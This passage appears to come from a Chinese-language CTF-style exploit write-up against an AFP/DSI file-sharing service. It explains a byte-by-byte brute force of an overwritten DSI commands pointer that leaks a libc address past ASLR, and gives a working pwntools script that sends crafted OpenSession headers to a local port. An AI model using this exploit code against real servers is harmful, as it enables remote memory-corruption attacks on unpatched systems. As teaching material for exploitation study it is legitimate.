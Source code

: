想要写`free_hook`首先需要泄露libc基址。

程序开了ASLR，每有一个新的连解就会fork出一个子进程处理，子进程的地址空间与父进程相同。

当覆写的`commands`指针不合法的时候，会产生段错误。如果是合法地址，服务器会将`server_quantum`的内容回传。那么可以一位一位的覆盖`DSI->commands`如果没有段错误(有返回内容)则说明爆破正确。

```python
from pwn import *
import struct

# context.log_level = "debug"
context.update(arch="amd64",os="linux")
ip = 'localhost'
port = 5566
libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

def create_header(addr):
    dsi_opensession = "\x01" # attention quantum option
    dsi_opensession += chr(len(addr)+0x10) # length
    dsi_opensession += "a"*0x10+addr
    dsi_header = "\x00" # "request" flag
    dsi_header += "\x04" # open session command
    dsi_header += "\x00\x01" # request id
    dsi_header += "\x00\x00\x00\x00" # data offset
    dsi_header += struct.pack(">I", len(dsi_opensession))
    dsi_header += "\x00\x00\x00\x00" # reserved
    dsi_header += dsi_opensession
    return dsi_header


addr = ""
while len(addr)<6 :
    for i in range(256):
        r = remote(ip,port)
        r.send(create_header(addr+chr(i)))
        try:
            if "a"*4 in r.recvrepeat(1):
                addr += chr(i)
                r.close()
                break
        except:
            r.close()
    val = u64(addr.ljust(8,'\x00'))
    print hex(val)
addr += "\x00"*2
libc_addr = u64(addr)
log.success("[+]Now we got an addresss {}".format(hex(libc_addr)))
offset = 0x535a000  # 这个offset与环境相关
libc_base = libc_addr + offset
log.success("[+]libc base {}".format(hex(libc_base)))
```
